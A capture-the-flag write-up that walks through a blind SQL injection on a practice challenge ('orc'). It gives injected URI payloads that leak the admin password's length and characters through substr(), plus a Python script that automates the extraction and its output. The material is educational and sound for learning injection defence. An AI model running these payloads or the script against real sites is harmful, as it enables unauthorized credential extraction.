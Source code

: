```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/3fb3ba7d-5c3a-40cc-8b3a-8dcd16ebe014)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='{$_GET[pw]}'
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. For that we have to perform a Blind SQL Injection.

### Blind SQL Injection

First we have to reveal the length of the flag.

If we provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=1 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1

## Commented part:
'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/d0e5928c-c2a2-4355-a6a2-af11d1804556)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=8 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8

## Commented part:
'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/9e438378-10e1-4f7a-9353-bdf75700825d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the length of the `pw` column is 8.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![4](https://github.com/Kunull/Write-ups/assets/110326359/e332b358-2371-4f97-a9be-e1e5afce6f68)

If we provide the following URI:

```
?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)='0' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)='0'

## Commented part:
'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/d479be75-0818-47a3-8d89-991e9dcd1926)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the first character of the `pw` for `id=admin` is `0`.

We can now move onto the second character:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)='0' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='0' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='0'

## Commented part:
'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/557a333a-920a-485b-926b-e87bfbf8b8f4)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the second character of the `pw` for `id=admin` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)='9' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='9' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)='9'

## Commented part:
'
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/e9d938ad-34aa-4f07-8e9b-167b5d1ec34d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the second character of the `pw` for `id=admin` is `9`.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
095a9852
```

Now, we can provide password URI:

```
?pw=095a9852
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='095a9852'
```

## Script

We can automate the entire process using a script.

```py title="orc_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'jeae4igtrh2cq92r63ob4kqmqr'}
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
password_length = 0

for x in range(0, 10):
  payload = f"' OR id='admin' AND length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Password length: {password_length}")
print()

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR id='admin' AND substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\orc_script.py

[!] Payload: ?pw=' OR id='admin' AND length(pw)=8 -- -
[!] Password length: 8

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
[+] Character at index 1: 0
[+] Payload: ?pw=' OR id='admin' AND substr(pw, 2, 1)='9' -- -
[+] Character at index 2: 9
[+] Payload: ?pw=' OR id='admin' AND substr(pw, 3, 1)='5' -- -
[+] Character at index 3: 5
[+] Payload: ?pw=' OR id='admin' AND substr(pw, 4, 1)='a' -- -
[+] Character at index 4: a
[+] Payload: ?pw=' OR id='admin' AND substr(pw, 5, 1)='9' -- -
[+] Character at index 5: 9
[+] Payload: ?pw=' OR id='admin' AND substr(pw, 6, 1)='8' -- -
[+] Character at index 6: 8
[+] Payload: ?pw=' OR id='admin' AND substr(pw, 7, 1)='5' -- -
[+] Character at index 7: 5
[+] Payload: ?pw=' OR id='admin' AND substr(pw, 8, 1)='2' -- -
[+] Character at index 8: 2     

[!] Extracted password: 095a9852
[!] Final payload: ?pw=095a9852 
```

![8](https://github.com/Kunull/Write-ups/assets/110326359/ef9ae213-af29-4450-8d2e-34d02565e928)
